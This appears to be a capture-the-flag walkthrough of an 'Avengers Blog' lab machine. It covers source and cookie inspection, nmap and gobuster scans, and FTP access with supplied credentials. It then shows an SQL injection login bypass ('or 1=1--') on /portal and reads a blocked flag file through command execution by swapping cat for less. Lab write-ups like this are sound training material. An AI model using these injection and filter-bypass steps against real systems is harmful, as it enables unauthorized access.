 ==Avengers Blog   Flutter Aug 14 2021==

IP 10.10.0.77
	export IP=10.10.0.77

## Enumeration ##

---Source code---

Found dirs

'''
img/
js/
css/
'''

Found hint line 189

'''
<script src="/js/script.js"></script> <!-- Hint -->
'''

/js/script.js found cookies flag
	document.cookie = "flag1=cookie_secrets; expires=Thu, 18 Dec 2050 12:00:00 UTC";
	flag1: cookie_secrets

---Dev Tools---

Checking cookies under Storage tab found cookies flag as well
	flag1: cookie_secrets


"GET http://10.10.0.77/" response headers under Network tab contain flag
	flag2: headers_are_important


---Scanning---

nmap -sV -sC -T5 -oN nmap_initial $IP

'''
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 ssh-hostkey: 
   2048 b0:e5:59:ea:e7:88:c7:e0:69:30:0d:46:9f:20:75:c4 (RSA)
   256 9d:80:60:d6:ac:c8:b2:aa:19:42:6d:56:fe:48:7c:a6 (ECDSA)
   256 57:10:7a:e0:a2:f5:4f:d5:b7:7f:d7:e6:b4:c3:54:a5 (EdDSA)

80/tcp open  http    Node.js Express framework
	http-title: Avengers! Assemble!
'''


gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_$IP

'''
/img (Status: 301)
/home (Status: 302)
/Home (Status: 302)
/assets (Status: 301)
/portal (Status: 200)
/css (Status: 301)
/js (Status: 301)
/logout (Status: 302)
/Portal (Status: 200)
/HOME (Status: 302)
/Logout (Status: 302)
/stones (Status: 301)
/PORTAL (Status: 200)
'''

Logging in to ftp using given credentials groot:iamgroot

ftp> cd files
ftp> get flag3.txt

flag3.txt contains flag
	8fc651a739befc58d450dc48e1f1fd2e


## /portal ##

Trying SQLi with "' or 1=1--:' or 1=1--"
	Success


## RCE ##

whoami
	command disallowed

pwd
	/home/ubuntu/avengers

cd /; pwd
	/

	oh so that works

ls /home
	groot and ubuntu

ls /home/ubuntu
	flag5.txt

cat flag5.txt fails

less flag5.txt returns flag
	d335e2d13f36558ba1e67969a1718af7
